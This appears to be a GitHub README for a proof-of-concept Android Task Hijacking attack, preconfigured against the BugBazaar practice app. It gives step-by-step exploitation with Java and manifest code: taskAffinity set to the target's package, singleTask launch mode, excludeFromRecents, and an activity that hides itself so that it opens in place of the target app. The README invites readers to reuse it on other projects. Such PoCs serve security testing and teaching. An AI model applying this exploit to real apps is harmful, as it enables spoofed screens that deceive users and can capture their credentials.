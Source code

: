 # Task Hijacking POC
This is a sample project which will help to exploit and create a POC for Task Hijacking Attack. This repository already have configured to exploit Task Hijacking vulnerability on BugBazaar application. Feel free to use this repo to create poc for your project.

### Steps to exploit Task Hijacking
1. Open Target application and make sure it is running properly. 
2. Decompile the apk of your target application and check "android:launchMode" value in AndroidManifest.xml file. If it's set to `singleTask` then application is exploitable.
3. Now create a new project in Android Studio or use this project.
4. In MainActivity.java, put following code:
```
	public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        moveTaskToBack(true);
    }

    @Override
    public void onResume(){
        super.onResume();
        setContentView(R.layout.activity_main);
    }
}
```
5. In AndroidManifest.xml file, put following line of code in <application> element. Make sure to replace package name with your target app package name.
  `android:taskAffinity="com.TargetApp.PackageName"`
	
6. Replace MainActivity declaration with following line of code:
	`<activity android:name=".MainActivity" android:launchMode="singleTask" android:excludeFromRecents="true" android:exported="true">`

7. Replace activity_main.xml layout content with following content:
```
<?xml version="1.0" encoding="utf-8"?>
<LinearLayout xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:tools="http://schemas.android.com/tools"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    android:orientation="vertical"
    android:gravity="center"
    tools:context=".MainActivity">

    <TextView
        android:layout_width="350dp"
        android:layout_height="88dp"
        android:text="Attacker's Application"
        android:textSize="35dp"
        android:textStyle="bold"
        android:gravity="center"></TextView>

    <TextView
        android:layout_width="350dp"
        android:layout_height="88dp"
        android:text="Task Hijacking Demo"
        android:textSize="20sp"
        android:textStyle="bold"
        android:gravity="center"></TextView>

</LinearLayout>

```
8. Run this application inside the same device where Target App is installed.
9. Our app will open and close quickly. It will not also can be seen in recent apps.
10. Now open Target application and you will see instead, target application, our malicious app will be opened.
